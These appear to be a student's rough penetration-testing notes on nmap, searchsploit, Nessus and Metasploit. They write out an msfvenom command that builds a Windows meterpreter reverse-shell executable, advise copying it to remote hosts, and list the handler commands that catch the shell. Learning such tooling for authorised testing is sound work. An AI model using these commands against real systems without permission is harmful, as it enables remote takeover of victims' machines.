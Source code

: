 How many hosts are active in the network is by using nmap 



/usr/share/nmap/scripts there multiple scripts are available to be tested and learn about the nmap scanner 
brute scripts used to bruteforce 
auth 

Using searchspolit tool to find the vulnerabilty related to the version of the software

Nessus setup will checkup the vulnerability of the 




Etenral Blue and Blue keep in windows RDP exploitation 

Routersploit can be used to hack the router as well 

Nessus scanning 

msfvenon can be used to generate the payload to exxploit the target 

msfvenom -p 

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= kali box LPORT kali port -f exe -o shell.exe


Just copy the file to the remote host machines and 
Lets Roll 

msfconsole 

use exploit/multi/handler
this is not an actual exploit think it as a handler of our payload 
is also called a listener 

WE need to set the payload 

set payload windows/x64/meterpreter/reverse_tcp

show options 

set LHOST 

set LPORT

Local host and port should be configured same as the vulnerability and it should be there listening waiting for the connection to run / exexute the progrrame 

once the user run the programm we get the hands of shell we should before hand run the commands to execute the payload 

we must be listening at the time of connection 

run 

shell 

msfvenom --list format

this will give you the payload to the diifrent architecture types 
exe dll and other file types 
